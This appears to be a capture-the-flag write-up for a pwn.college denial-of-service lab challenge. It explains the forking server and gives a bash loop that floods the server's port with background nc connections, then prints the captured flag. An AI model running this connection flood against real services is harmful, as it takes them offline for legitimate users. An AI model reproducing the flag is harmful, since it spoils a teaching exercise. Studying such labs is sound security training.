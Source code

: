 # denial-of-service-3 — Writeup

## 🧠 Challenge Overview

In this challenge, we are given a virtual network with three hosts:

- **User Host** (`10.0.0.1`): You
- **Server Host** (`10.0.0.2`): Listens on TCP port `31337`
- **Client Host** (`10.0.0.3`): Tries to connect to the server and send `"Hello, World!\n"` once every second

If the client **fails to send** the message (e.g., connection timeout), it **prints the flag**.

---

## 🎯 Goal

**Prevent the client from connecting** to the server on port `31337`.  
This is a classic **Denial-of-Service (DoS)** scenario. If the server is too busy (e.g., stuck handling our requests), it can't serve the client — and the flag is revealed.

---

## 🔍 Server Logic Summary (from `/challenge/run`)

- Server listens on `0.0.0.0:31337`.
- Each incoming connection is handled via `ForkingTCPServer`, which forks a new process.
- Each handler waits up to `1s` for a message, then closes.
- The client retries forever, but **if it hits a `TimeoutError` or `socket.timeout`**, it prints the flag.

---

## 💡 Exploit Strategy

We flood the server with **many rapid short-lived connections**, occupying its process slots, causing:

- **Fork overload**: server runs out of process slots
- **Connection backlog saturation**
- **Socket timeouts** due to load

We want to *flood the server* **without crashing our shell** by hitting the system fork limit.

---

## 💣 Final Exploit

```bash
while true; do
  nc -w 2 10.0.0.2 31337 &
  sleep 0.000000001
done
```

- nc -w 2: sets a 2s timeout per connection
- &: runs in background
- sleep 0.000000001: slight delay to avoid hitting:
```
-bash: fork: retry: Resource temporarily unavailable

```
This script spawns many connections to overwhelm the server, while staying under the fork limit.

### Sample Output

```
[12248] 50552
[11737]   Exit 1  nc -w 2 10.0.0.2 31337
...
[12318]   Done    nc -w 2 10.0.0.2 31337
root@ip-10-0-0-1:~#
```
Eventually, the client fails to connect, and we get:
```
pwn.college{U55-2EAaxUiI_mD6vLgJNCPKwUC.0VO1AjNxwSM0IzMyEzW}
```

---

## Final Flag
```
pwn.college{U55-2EAaxUiI_mD6vLgJNCPKwUC.0VO1AjNxwSM0IzMyEzW}
```
---
